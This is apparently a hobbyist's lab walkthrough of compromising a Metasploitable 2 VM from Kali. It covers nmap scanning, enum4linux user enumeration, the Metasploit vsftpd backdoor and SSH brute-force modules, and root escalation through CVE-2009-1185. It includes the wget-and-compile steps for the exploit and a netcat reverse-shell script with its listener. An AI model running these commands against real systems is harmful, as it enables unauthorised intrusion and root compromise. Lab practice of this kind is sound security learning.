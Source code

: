 I've always had a casual interest in exploring penetration testing. Over the last week I've taken to seeing what I could learn through my own exploration!

A few assumptions are made with this write-up.
1. Kali Linux and Metasploitable are both being run through Oracle VM VirtualBox.
2. Metasploitable's IP is `192.168.56.101` and Kali's IP is `192.168.56.102`
3. An additional network adapter is enabled on Kali to provide updates and downloads
4. This is personal hardware/software and no local laws are being broken.

Obviously, keep metasploitable and kali on a host-only virtual network. Don't let script kiddies have access to an intentionally exploitable machine!!

Enable a second network interface and update Kali. There's nothing wrong with skipping this step if you're staying on a host-only network, but it's good to be up to date. Once it's updated, be sure to switch your network adapter back to host-only mode.

## Let's get started!

Before starting anything, we want to find the IP of the machine we want to pwn. Let's use netdiscover

`netdiscover -r 192.168.56.100`
Now we've got a few IP addresses to scan.
Pinging `192.168.56.100` returns nothing, whereas `192.168.56.101` pings back! That gives us, with just 3 possible addresses to choose from, a good idea of our target's address.

Time to get more information on our target. We can use nmap to scan for TCP ports and the services they use.

`nmap -sV -O 192.168.56.101 -p1-65535`
- -sV to check open ports and version information
- -O to try to guess the operating system

![nmap result](/img/metasploitable/metasploitable1.png)
Lots of open ports! This is obviously on purpose. This gives us great information-- we can see what software and version number applies to each port.

## Enumeration for fun and profit
Kali has a wonderful script called enum4linux. This asks the remote Samba service for a list of users.

`enum4linux -U 192.168.56.101`
- -U displays the users

With some grepping and cutting, we can easily isolate a list of users for use later. `enum4linux -U 192.168.56.101 | grep 'user:' | cut -d'[' -f2 | cut -d']' -f1 > users.txt` Keep this file around for later!

## There's a few different ways you can get a shell. Here are two:

### vsftpd (port 21)
Boot up the metasploit console (`msfconsole`). With this, we can search for and execute various exploits. Let's look up vsftpd version 2.3.4

`search vsftpd 2.3.4`
![Search vsftpd](/img/metasploitable/metasploitable2.png)
Aha! An excellent backdoor exploit. We're given the namespace to the exploit, which we'll use to execute it.

`use exploit/unix/ftp/vsftpd_234_backdoor` (metasploit supports tab completion!)

Next, we'll set RHOST to our target's IP address. `set rhost 192.168.56.101`

and we'll set our RPORT to 21 to match the port that vsftpd is running on. `set rport 21`

Finally, we execute our attack with a simple `run`.

Press Enter, and you'll have gained access to a remote shell!
![remote shell](/img/metasploitable/metasploitable3.png)

### ssh (port 22)
We can employ a similar method try and gain access to port 22. With metasploit still open, we'll use a common ssh login check scanner (https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/).

`use auxillary/scanner/ssh/ssh_login`

Again, set your rhosts and rport to the corresponding information. (`set rhosts 192.168.56.101` and `set rport 22`)

We'll be using our previous wordlist to attempt to brute force our way in. `set user_file users.txt`.

Additionally, we'll want to `set user_as_pass true`. This might save us some time if our target decided to use the same password as their username.

In order to watch the brute force in action, we'll need to `set verbose true`.

Now a quick `run` should enumerate through the users file, trying each username as its own password.
![trial](/img/metasploitable/metasploitable4.png)
Not bad!

## Now what? Escalation!!

With the newfound limited user accounts that we now have access to, our next step is to elevate our user level. The whole point was to get root access, right?

What can we find by exploring the `user` user? Starting off with `uname -a` will give us details about the system. Through this, we can pick out the kernel version- 2.6.14. Let's dive into some CVEs! Some quick searching will give us [CVE-2009-1185](http://www.exploit-db.com/exploits/8572/). This exploits a Netlink in order to execute a payload from /tmp/run AS ROOT!!. Netlink is a way to pass data back and forth between the kernel and user-space.
https://linux-hacking-guide.blogspot.com/2015/05/metasploitable-2-privilege-escalation.html

We'll need to enable an external internet connection in order to download the exploit. While logged into the `user` account, `wget https://www.exploit-db.com/download/8572.c` (as always, audit all code you download!). Next, we'll need to compile our C code with `gcc -o exploit 8572.c`. This will create an executable named `exploit` that we can pass an argument to.

Once the exploit is compiled, we'll need to find the netlink process ID to pass as the argument to our script. We'll find this with `cat /proc/net/netlink`. Several results will display, but we want the one with an above-zero PID. In my case this is `2329`

Now we'll move on to the command we want to execute as root. With `vim /tmp/run` we can enter a command to execute as root. For this, netcat will execute a shell that we'll catch later. In /tmp/run, we'll enter the following. I'm choosing 1337 as my port because `1337 5P34K` is always cool.

```
#!/bin/bash
/bin/netcat -e /bin/bash 192.168.56.102 1337
```

Now, in another terminal local to our Kali environment, we'll need to catch netcat and listen on port 1337. To do this we use `nc -l -p 1337`.

Returning to our ssh'd Metasploitable terminal, we're finally going to execute our exploit! `./exploit 1337`

It wont look like anything is happening, but if we run `id` through our Kali terminal, we'll see that we're now `uid=0(root) gid=0(root)`! Just to make sure we're not seeing our Kali id, we'll check `uname -a` again.

![payload executed](/img/metasploitable/metasploitable5.png)
I hope you learned as much as I did! Of course, there are plenty of other ways to exploit vulnerable machines, and it's been an incredibly fun journey trying to figure out this much. I'm excited to learn more!
